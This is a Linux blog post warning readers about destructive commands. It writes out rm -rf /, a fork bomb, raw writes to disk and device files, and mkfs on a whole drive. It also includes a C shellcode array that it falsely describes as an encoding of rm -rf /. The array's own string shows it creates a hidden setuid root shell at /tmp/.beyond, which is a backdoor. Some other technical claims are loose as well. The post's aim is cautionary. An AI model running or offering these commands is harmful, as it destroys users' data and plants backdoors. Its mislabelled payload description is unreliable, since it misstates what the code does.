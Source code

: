 ```yaml
---
layout: post
title: "The Linux commands you should NEVER use"
date: 2018-01-04 12:00:00 -0500
categories: linux
tags: linux ubuntu
image:
  path: /assets/img/headers/command-linux/1.png
---
```


Hello everyone! Today, we're going to discuss some commands that should never be used on Linux distributions, as they can cause serious problems. Let's take a look at a few of them:

CAUTION: Never use these commands:

1) The following command clears everything in the system, absolutely everything. It is extremely destructive and should be avoided at all costs. 
```sh
rm -rf /
```
This code is the hexadecimal representation of `rm -rf /`. Executing this code will have the same effect as the previous command, deleting everything on your system.
```c
char esp[] __attribute__ ((section(".text"))) = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x2d\x63\x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";
```
2) BASH FORK BOMB: This command creates a fork bomb, which is a process that replicates itself indefinitely and consumes system resources until it crashes. It can cause a system to become unresponsive or even crash.
```sh
:(){ :|: & };:
```
3) OVERWRITING THE HARD DRIVE WITH GARBAGE: The command `Any command > /dev/hda` overwrites data on your storage device. Any command with output can be used in place of "Any command." For example:
```sh
ls -la > /dev/hda
```
4) This command writes the directory listing to your main storage device, effectively overwriting all the data on your drive. It can lead to data loss and panic.

   - These commands, `mv / /dev/null or mv /dev/null`, attempt to move the entire system or root directory to the null device. This effectively destroys the system and renders it unusable.
   - FORMATTING THE WRONG DRIVE: When formatting a drive, use caution, as the command mkfs.ext3 `/dev/hda` formats the entire HDD/SSD, erasing all data on it. Be extremely careful when formatting partitions from the command line.
   - Kernel panics: Some Linux commands can cause the kernel to panic, resulting in system crashes. Here are a few examples:

```bash
dd if=/dev/random of=/dev/port
echo 1 > /proc/sys/kernel/panic
cat /dev/port
cat /dev/zero > /dev/mem
```
These commands can cause system instability and should not be executed without proper understanding and precautions.

Always exercise caution when executing commands on your Linux system. It's crucial to understand the potential consequences and only use trusted and verified scripts or commands. Avoid downloading and running scripts if you're unsure about their functionality.

Stay safe and make informed decisions when working with your Linux system!
